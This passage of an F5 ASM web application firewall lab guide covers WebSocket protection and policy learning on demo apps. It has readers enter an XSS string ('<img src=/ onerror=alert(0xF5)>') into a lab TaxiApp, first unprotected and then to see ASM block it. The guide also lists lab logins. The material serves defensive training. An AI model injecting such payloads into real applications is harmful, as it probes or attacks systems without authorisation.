1. In Chrome, In the F5 WebUI open the Websocket\_virtual properties
   page.

2. Ensure that Advanced view is set and associate the default WebSocket
   profile to the virtual. Click .

|image67|\ |image68|

    In order for ASM to properly parse the WebSocket content, a
    websocket profile must be assigned to the virtual.

Step 2 – Review TaxiApp
~~~~~~~~~~~~~~~~~~~~~~~

1. In Firefox, browse to `www.taxiapp.com <http://www.taxiapp.com>`__.
   Click on the Admin tab and login as admin/admin.

    |image69| |image70|

    This is the admin console of the Taxi app and allows the app admin
    to see what clients and drivers are using the app.

1. On the Desktop, open the TaxiApp client emulator by double-clicking
   the icon.

    |image71|

1. In the TaxiApp client emulator, click on the Client tab and enter
   your name. Click Order.

    |image72|

    The TaxiApp client passes data to the backend application over a
    WebSocket connection. You should see your name and a location appear
    in the admin console of the taxi app.

Step 3 – Attack TaxiApp
~~~~~~~~~~~~~~~~~~~~~~~

1. In the TaxiApp client, enter the following XSS attack string in the
   Name field. Click Order.

    <img src=/ onerror=alert(0xF5)>

|image73|\ |image74|

**
**

Exercise 2 – WebSocket Protection
---------------------------------

Step 1 – Create ASM WebSocket Policy
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. In Chrome, In the F5 WebUI create a new ASM policy with the following
   settings:

    |image75|\ Name: Websocket-policy

    Policy Template: Rapid Deployment

    Virtual Server: Websocket\_virtual

    Learning: Disabled

    Enforcement: Blocking

    Language: utf-8

    Signature Staging: Disabled

1. In the TaxiApp client, enter the following XSS attack string in the
   Name field. Click Order.

    <img src=/ onerror=alert(0xF5)>

|image76|

1. Review the ASM Request Log for this request.

    |image77|

1. Look at the request immediately prior to this websocket request.

    |image78|

Lab 6 – ASM Learning (Optional Exercise)
========================================

The purpose of this lab is to introduce new features and changes to
learning in ASM in 13.0. This lab only focuses on Server Technology
Learning. There are MANY more new enhancements to ASM Learning in 13.0.
A separate lab will be created in the future to demo all of these
features.

Exercise 1 – Policy Creation
----------------------------

|image79|\ Step 1: Create policy for Hackazon
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. Advanced mode

2. Name: ASM\_Learning

3. Policy Template: Comprehensive

4. Associate to Hackazon VIP

5. Learning Mode: Manual

6. Enforcement Mode: Blocking

7. Language: utf-8

8. Enforcement Readiness: 0

Step 2: Review the Hackazon Virtual Security Tab config
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    |image80|\ Ensure App Sec logging profile is assigned to VIP.

**
**

Step 3: Create and Configure Learning Suggestions
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. |image81|\ Review Learning and Blocking Settings:

   a. Ensure that Advanced view is selected

   b. Expand Options section at bottom

2. Go to Traffic Learning page:

   a. No Learning Suggestions yet as policy has seen no traffic.

   b. Also, note the number of signatures applied to the policy

|image82|

**
**

1. Browse to http://hackazon.f5demo.com

   a. Click the Hackazon logo to refresh the home page

   b. Click on any item on the home page

|image83|

a. Change “Count” to 2 and click Add to Cart.

|image84|

a. In the Cart pop-up, click Show all Items in Cart

|image85|

a. On the Overview screen accept the defaults and click Next.

|image86|

a. On the Shipping Address screen complete the form and click Next

|image87|

a. On the Billing Address screen click Bill to this Address

Exercise 2: Server Technologies
-------------------------------

Step 1: Review ASM Learning
~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. Return to the ASM WebUI and navigate to the Traffic Learning page

2. Refresh page if the browser was already at this page

3. Note Server Technologies learned and, again, note the number of
   signatures

|image88|

1. Accept all four Add Server Technologies suggestions and click Apply
   Policy

|image89|

1. Review Policy >> Server Technologies page

|image90|

1. |image91|\ Go to Learning and Blocking Settings page

   a. Change Loosen Policy settings

      -  Untrusted Sources: 1

      -  Hours: 0.1

      -  Days: 0.1

      -  Trusted Sources: 1

      -  Days: 0.1

   b. Click Save and Apply Policy

    | NOTE: We are only doing this to lower the time that it will take
      to **show** new Learning Suggestions for the purposes of the lab.
    | ***DO NOT do this in a production environment.***

Step 2: Review Learning Suggestions
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. Return to the Hackazon browser window

   a. Click on the Hackazon logo to return to the home page

   b. Click the Sign In/Sign Up link in the top left corner

   c. Login as user1/user1

    |image92|

a. On the My Account page click on one of the existing orders

|image93|

a. Review the order then click on the Orders link to return to the
   Orders page.

|image94|

i.   Click the Hackazon logo to return to the home page

ii.  Click on any item on the home page and click Add to Cart

iii. Browse to your cart

iv.  On the Overview screen click Next

v.   On the Shipping screen, fill out the shipping information and click
     Next

vi.  On the Billing screen, click Bill to this Address

vii. On the Confirmation screen, click Place Order

|image95|

1. Return to the ASM WebUI and navigate to the Traffic Learning page.
   Review various Learning suggestion types

|image96|

.. |image0| image:: media/image1.png
   :width: 1.93667in
   :height: 0.61667in
.. |image1| image:: media/image3.png
   :width: 6.50000in
   :height: 2.88472in
.. |image2| image:: media/image4.png
   :width: 3.44722in
   :height: 1.79506in
.. |image3| image:: media/image5.png
   :width: 6.92003in
   :height: 1.83056in
.. |image4| image:: media/image7.png
   :width: 3.86111in
   :height: 2.07906in
.. |image5| image:: media/image8.png
   :width: 7.09919in
   :height: 1.82562in
.. |image6| image:: media/image9.png
   :width: 6.50000in
   :height: 2.88958in
.. |image7| image:: media/image10.png
   :width: 6.50000in
   :height: 2.90347in
.. |image8| image:: media/image11.png
   :width: 6.50000in
   :height: 2.90833in
.. |image9| image:: media/image12.png
   :width: 3.56482in
   :height: 2.46551in
.. |image10| image:: media/image13.png
   :width: 2.93518in
   :height: 1.68941in
.. |image11| image:: media/image14.png
   :width: 6.50000in
   :height: 1.24583in
.. |image12| image:: media/image15.png
   :width: 4.36449in
   :height: 0.58333in
.. |image13| image:: media/image16.png
   :width: 5.40208in
   :height: 1.47557in
.. |image14| image:: media/image17.png
   :width: 5.16736in
   :height: 2.00800in
.. |image15| image:: media/image18.png
   :width: 4.58403in
   :height: 2.43876in
.. |image16| image:: media/image19.png
   :width: 2.81720in
   :height: 3.62778in
.. |image17| image:: media/image20.png
   :width: 4.66736in
   :height: 2.48494in
.. |image18| image:: media/image21.png
   :width: 1.91736in
   :height: 2.74930in
.. |image19| image:: media/image22.png
   :width: 1.99931in
   :height: 0.91045in
.. |image20| image:: media/image23.png
   :width: 5.58403in
   :height: 2.98838in
.. |image21| image:: media/image24.png
   :width: 5.50556in
   :height: 2.89806in
.. |image22| image:: media/image25.png
   :width: 5.27500in
   :height: 2.80995in
.. |image23| image:: media/image26.png
   :width: 6.50000in
   :height: 2.91875in
.. |image24| image:: media/image27.png
   :width: 2.83403in
   :height: 2.12831in
.. |image25| image:: media/image28.png
   :width: 4.83403in
   :height: 2.59313in
.. |image26| image:: media/image29.png
   :width: 5.60133in
   :height: 2.70671in
.. |image27| image:: media/image30.png
   :width: 3.93510in
   :height: 4.16647in
.. |image28| image:: media/image31.png
   :width: 4.49604in
   :height: 3.72963in
.. |image29| image:: media/image32.png
   :width: 5.65208in
   :height: 2.60729in
.. |image30| image:: media/image33.png
   :width: 4.38689in
   :height: 3.58669in
.. |image31| image:: media/image34.png
   :width: 4.52384in
   :height: 2.82615in
.. |image32| image:: media/image35.png
   :width: 4.40903in
   :height: 2.76667in
.. |image33| image:: media/image16.png
   :width: 5.40208in
   :height: 1.47557in
.. |image34| image:: media/image36.png
   :width: 5.56875in
   :height: 3.71559in
.. |image35| image:: media/image37.png
   :width: 5.90208in
   :height: 2.08595in
.. |image36| image:: media/image38.png
   :width: 5.96909in
   :height: 2.32739in
.. |image37| image:: media/image39.png
   :width: 5.98542in
   :height: 2.59978in
.. |image38| image:: media/image40.png
   :width: 7.06875in
   :height: 3.00684in
.. |image39| image:: media/image41.png
   :width: 5.76458in
   :height: 3.61728in
.. |image40| image:: media/image42.png
   :width: 6.98542in
   :height: 4.27598in
.. |image41| image:: media/image43.png
   :width: 4.04254in
   :height: 2.47893in
.. |image42| image:: media/image44.png
   :width: 4.00786in
   :height: 2.45139in
.. |image43| image:: media/image45.png
   :width: 5.52500in
   :height: 3.52219in
.. |image44| image:: media/image46.png
   :width: 4.09653in
   :height: 1.66006in
.. |image45| image:: media/image47.png
   :width: 6.50000in
   :height: 3.48958in
.. |image46| image:: media/image48.png
   :width: 6.50000in
   :height: 3.36250in
.. |image47| image:: media/image49.png
   :width: 6.50000in
   :height: 3.02083in
.. |image48| image:: media/image50.png
   :width: 6.50000in
   :height: 3.32639in
.. |image49| image:: media/image51.png
   :width: 6.50763in
   :height: 4.14375in
.. |image50| image:: media/image52.png
   :width: 6.50000in
   :height: 1.93056in
.. |image51| image:: media/image53.png
   :width: 4.59653in
   :height: 2.77314in
.. |image52| image:: media/image54.png
   :width: 5.63542in
   :height: 4.51074in
.. |image53| image:: media/image55.png
   :width: 5.24583in
   :height: 3.81668in
.. |image54| image:: media/image56.png
   :width: 6.50000in
   :height: 4.30417in
.. |image55| image:: media/image57.png
   :width: 6.50000in
   :height: 4.09236in
.. |image56| image:: media/image58.png
   :width: 3.68750in
   :height: 3.87581in
.. |image57| image:: media/image59.png
   :width: 6.50000in
   :height: 4.10069in
.. |image58| image:: media/image60.png
   :width: 6.50000in
   :height: 3.28750in
.. |image59| image:: media/image61.png
   :width: 5.24583in
   :height: 1.45718in
.. |image60| image:: media/image62.png
   :width: 5.23885in
   :height: 3.31458in
.. |image61| image:: media/image63.png
   :width: 6.28472in
   :height: 3.84335in
.. |image62| image:: media/image64.png
   :width: 3.03819in
   :height: 2.01345in
.. |image63| image:: media/image65.png
   :width: 6.50000in
   :height: 4.11736in
.. |image64| image:: media/image66.png
   :width: 5.96736in
   :height: 3.25000in
.. |image65| image:: media/image67.png
   :width: 6.50000in
   :height: 2.51852in
.. |image66| image:: media/image68.png
   :width: 6.50000in
   :height: 3.31806in
.. |image67| image:: media/image69.png
   :width: 4.35625in
   :height: 4.17334in
.. |image68| image:: media/image70.png
   :width: 4.35625in
   :height: 3.96806in
.. |image69| image:: media/image71.png
   :width: 2.98485in
   :height: 1.90093in
.. |image70| image:: media/image72.png
   :width: 3.28354in
   :height: 1.88102in
.. |image71| image:: media/image73.png
   :width: 0.28697in
   :height: 0.42837in
.. |image72| image:: media/image74.png
   :width: 6.50000in
   :height: 4.13403in
.. |image73| image:: media/image75.png
   :width: 2.53819in
   :height: 3.37083in
.. |image74| image:: media/image76.png
   :width: 5.65486in
   :height: 3.09265in
.. |image75| image:: media/image77.png
   :width: 3.05764in
   :height: 2.78819in
.. |image76| image:: media/image75.png
   :width: 1.95278in
   :height: 2.59375in
.. |image77| image:: media/image78.png
   :width: 5.91458in
   :height: 2.90737in
.. |image78| image:: media/image79.png
   :width: 5.78472in
   :height: 3.17109in
.. |image79| image:: media/image80.png
   :width: 4.18125in
   :height: 3.72153in
.. |image80| image:: media/image81.png
   :width: 2.76458in
   :height: 2.28846in
.. |image81| image:: media/image82.png
   :width: 2.68125in
   :height: 1.90489in
.. |image82| image:: media/image83.png
   :width: 7.05000in
   :height: 3.44210in
.. |image83| image:: media/image84.png
   :width: 5.01458in
   :height: 3.73354in
.. |image84| image:: media/image85.png
   :width: 5.26458in
   :height: 2.72442in
.. |image85| image:: media/image86.png
   :width: 2.93125in
   :height: 0.92315in
.. |image86| image:: media/image87.png
   :width: 4.68125in
   :height: 2.46719in
.. |image87| image:: media/image88.png
   :width: 4.34792in
   :height: 2.86117in
.. |image88| image:: media/image89.png
   :width: 6.76623in
   :height: 2.25974in
.. |image89| image:: media/image90.png
   :width: 3.59792in
   :height: 2.54487in
.. |image90| image:: media/image91.png
   :width: 4.09792in
   :height: 2.07362in
.. |image91| image:: media/image92.png
   :width: 2.02487in
   :height: 2.22963in
.. |image92| image:: media/image93.png
   :width: 2.22399in
   :height: 1.66482in
.. |image93| image:: media/image94.png
   :width: 5.43125in
   :height: 1.77320in
.. |image94| image:: media/image95.png
   :width: 2.34792in
   :height: 2.28048in
.. |image95| image:: media/image96.png
   :width: 4.01458in
   :height: 2.69014in
.. |image96| image:: media/image97.png
   :width: 13.94805in
   :height: 3.03896in
